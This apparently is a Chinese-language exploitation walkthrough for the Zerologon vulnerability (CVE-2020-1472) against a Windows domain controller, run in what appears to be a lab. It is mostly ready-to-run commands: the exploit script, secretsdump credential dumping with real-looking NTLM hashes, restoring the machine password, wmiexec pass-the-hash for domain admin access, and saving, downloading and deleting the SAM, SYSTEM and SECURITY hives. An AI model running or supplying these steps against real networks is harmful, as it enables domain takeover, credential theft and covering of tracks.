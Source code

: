 - 取目标主机名+IP
- install 修改版本的impacket
- Exp

```
python cve-2020-1472-exploit.py DC2008 10.211.55.200
```

[![img](https://camo.githubusercontent.com/ab6ebf37bf1f547e4dd044b0ffb16f8493190a988f350bc7119c5c335b7c95be/68747470733a2f2f626c6f67706963732d313235313639313238302e66696c652e6d7971636c6f75642e636f6d2f696d67732f32303230303931363139303133372e706e67)](https://camo.githubusercontent.com/ab6ebf37bf1f547e4dd044b0ffb16f8493190a988f350bc7119c5c335b7c95be/68747470733a2f2f626c6f67706963732d313235313639313238302e66696c652e6d7971636c6f75642e636f6d2f696d67732f32303230303931363139303133372e706e67)

```python
secretsdump.py -no-pass cgdomain.com/'DC2008$'@10.211.55.200 -history -just-dc-user administrator
secretsdump.py -no-pass cgdomain.com/administrator@10.211.55.200 -hashes aad3b435b51404eeaad3b435b51404ee:3add1560657a19b3166247eb3eb149ae
```

[![img](https://camo.githubusercontent.com/d94bd9f15fb2db6a2b99b7463de0674117fb227d731c7d0d8526ee66bb66961d/68747470733a2f2f626c6f67706963732d313235313639313238302e66696c652e6d7971636c6f75642e636f6d2f696d67732f32303230303931363139303335392e706e67)](https://camo.githubusercontent.com/d94bd9f15fb2db6a2b99b7463de0674117fb227d731c7d0d8526ee66bb66961d/68747470733a2f2f626c6f67706963732d313235313639313238302e66696c652e6d7971636c6f75642e636f6d2f696d67732f32303230303931363139303335392e706e67)

获取到旧的密码明文hex，还原

```
python restorepassword.py cgdomain.com/DC2008@DC2008 -target-ip 10.211.55.200 -hexpass 59958639cbdd4523de5d42b01adb0e256e0d39aef14c8eef31f4c078862109f253bbb7b3817ab123d013856c028fa4993f5f5b9a830a3a98d87483b29df3fb55082a1f464b19220a2c04f6605d2d321a04afbb551f8f19a13d399f9f5af2aa23c5b76b49001033516fefd90cb0348256e8282b22cbf9e70d82a8b8d2916d578246e288af3af727533d36ad8950fe1c513771377d98a947c4a8eae2b581a74b6687a2e533b7e89e8d03c2e6c2123d519489869a6e33d3a8884be33107060b62e2852502261f48c097ddb68750cc55b7688cc951441cf02989a307f55c008e978edbaf31766d17b53505016c7580cb480b
```

[![img](https://camo.githubusercontent.com/206012e6d64974e4fda0704c8f1334e777a44f37f7b517e7d8776fbb79921e3f/68747470733a2f2f626c6f67706963732d313235313639313238302e66696c652e6d7971636c6f75642e636f6d2f696d67732f32303230303931363139303435372e706e67)](https://camo.githubusercontent.com/206012e6d64974e4fda0704c8f1334e777a44f37f7b517e7d8776fbb79921e3f/68747470733a2f2f626c6f67706963732d313235313639313238302e66696c652e6d7971636c6f75642e636f6d2f696d67732f32303230303931363139303435372e706e67)

恢复方法2

 通过wmic, pass the hash 拿到域控制器中的本地管理员权限(域管)

```
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8adfc85c3490040e942ae1e6c68f645e test.local/Administrator@10.211.55.38
```

然后分别执行,拷贝本机中SAM数据库到本地

```
- reg save HKLM\SYSTEM system.save
- reg save HKLM\SAM sam.save
- reg save HKLM\SECURITY security.save
- get system.save
- get sam.save
- get security.save
- del /f system.save
- del /f sam.save
- del /f security.save
```

